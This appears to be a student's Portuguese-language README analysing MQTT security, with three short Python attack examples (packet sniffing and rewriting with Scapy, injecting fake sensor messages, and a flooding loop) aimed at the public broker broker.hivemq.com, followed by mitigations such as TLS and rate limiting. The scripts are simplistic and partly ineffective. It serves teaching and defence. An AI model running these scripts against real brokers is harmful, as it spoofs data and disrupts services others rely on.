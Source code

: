 ## Documentação de Análise de Vulnerabilidade e Segurança MQTT

### 1. Introdução

Esta documentação tem como objetivo apresentar uma análise detalhada das vulnerabilidades associadas ao protocolo MQTT, particularmente em relação aos pilares da Confiabilidade, Integridade e Disponibilidade. Serão abordadas técnicas de ataque simuladas e medidas de mitigação recomendadas.

- Em [Mídia](https://github.com/Gabi-Barretto/M9-Individual/tree/main/Ponderada%203/M%C3%ADdia) temos o vídeo do funcionamento do publisher e os ataques a suas vulnerabilidades. Tambem no disponível no Drive:

- [Confiabilidade](https://drive.google.com/file/d/1t6aCsvY1sFbP39xEDqoETfFn4rDralsl/view?usp=sharing).
- [Integridade](https://drive.google.com/file/d/1mW5aqrSG5b9f2u1d0OZsuiSPFgak4lkD/view?usp=sharing).
- [Disponibilidade](https://drive.google.com/file/d/1YILzq9VqLuwmt0B6gfNlv0n75vYaTr5O/view?usp=sharing).

### 2. Configuração do Ambiente

O ambiente consiste em um broker MQTT e um cliente MQTT configurado para publicar dados de sensores. O broker utilizado é `hivemq.cloud` com TLS/SSL desativado por padrão.

### 3. Análise de Vulnerabilidades

##### 3.1 Confiabilidade

A confiabilidade é comprometida pela ausência de criptografia na transmissão de dados, permitindo interceptações e alterações.

##### 3.2 Integridade

A integridade dos dados é vulnerável devido à falta de mecanismos de validação e autenticação dos dados enviados e recebidos.

##### 3.3 Disponibilidade

A disponibilidade pode ser afetada por ataques de DoS, que sobrecarregam o broker e impedem a comunicação normal.

### 4. Exemplos de Scripts de Invasão

#### 4.1 Ataque ao Pilar de Confiabilidade

```python
# Exemplo de um ataque Man-in-the-Middle (MitM) usando Scapy
from scapy.all import *

def mitm_packet(packet):
    if packet.haslayer(TCP) and packet.haslayer(Raw):
        print("Packet Intercepted: " + packet[Raw].load.decode())
        packet[Raw].load = packet[Raw].load.replace(b'original', b'modified')
    return packet

sniff(filter="tcp port 1883", prn=mitm_packet)
```

#### 4.2 Ataque ao Pilar de Integridade

```python
# Exemplo de injeção de mensagens falsas em um broker MQTT
import paho.mqtt.publish as publish

fake_data = '{"sensor": "temperatura", "valor": "100"}'
publish.single("casa/sala/temperatura", fake_data, hostname="broker.hivemq.com")
```

#### 4.3 Ataque ao Pilar de Disponibilidade

```python
# Exemplo de um ataque DoS simples ao broker MQTT
import socket

target_ip = "broker.hivemq.com"
target_port = 1883

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try:
        sock.connect((target_ip, target_port))
        print("Conexão estabelecida, enviando payload...")
        sock.send(b"A" * 1024)  # Envia um grande volume de dados
    except Exception as e:
        print(f"Erro: {e}")
```

### 5. Medidas de Mitigação

- **Para a Confiabilidade:** Habilitar TLS/SSL para a criptografia de dados.
- **Para a Integridade:** Implementar autenticação de clientes e validação de dados.
- **Para a Disponibilidade:** Configurar limites de taxa e monitoramento proativo para prevenir e mitigar ataques de DoS.

### 6. Conclusão

A análise e simulação de ataques demonstram a importância de adotar práticas robustas de segurança para proteger os sistemas que utilizam o protocolo MQTT contra vulnerabilidades comuns.

### 7. Referências

- MQTT.org. Documentação oficial do MQTT.


- OWASP. Top 10 IoT Vulnerabilities.
- Paho MQTT Python Client Library.
